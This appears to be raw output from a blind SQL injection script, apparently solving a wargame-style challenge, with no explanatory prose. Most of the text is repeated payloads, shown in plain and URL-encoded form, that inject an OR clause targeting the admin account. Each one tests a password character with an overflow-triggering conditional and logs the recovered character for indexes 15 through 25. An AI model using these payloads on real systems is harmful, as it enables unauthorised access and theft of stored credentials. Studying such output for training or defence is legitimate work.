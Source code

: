 ```
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+15%2C+1%29%3D%274%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 15: 4

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 16, 1)='7', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+16%2C+1%29%3D%277%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 16: 7

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 17, 1)='5', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+17%2C+1%29%3D%275%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 17: 5

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 18, 1)='f', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+18%2C+1%29%3D%27f%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 18: f

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 19, 1)='9', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+19%2C+1%29%3D%279%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 19: 9

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 20, 1)='8', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+20%2C+1%29%3D%278%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 20: 8

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 21, 1)='3', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+21%2C+1%29%3D%273%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 21: 3

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 22, 1)='c', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+22%2C+1%29%3D%27c%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 22: c

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 23, 1)='c', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+23%2C+1%29%3D%27c%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 23: c

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 24, 1)='3', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+24%2C+1%29%3D%273%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 24: 3

[+] Payload: ?pw=' OR id='admin' AND if(substr(pw, 25, 1)='a', 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF, 1) -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+if%28substr%28pw%2C+25%2C+1%29%3D%27a%27%2C+0xFFFFFFFFFFFFFF%2A0xFFFFFFFFFFFFFF%2C+1%29+--+-
[+] Character at index 25: a
```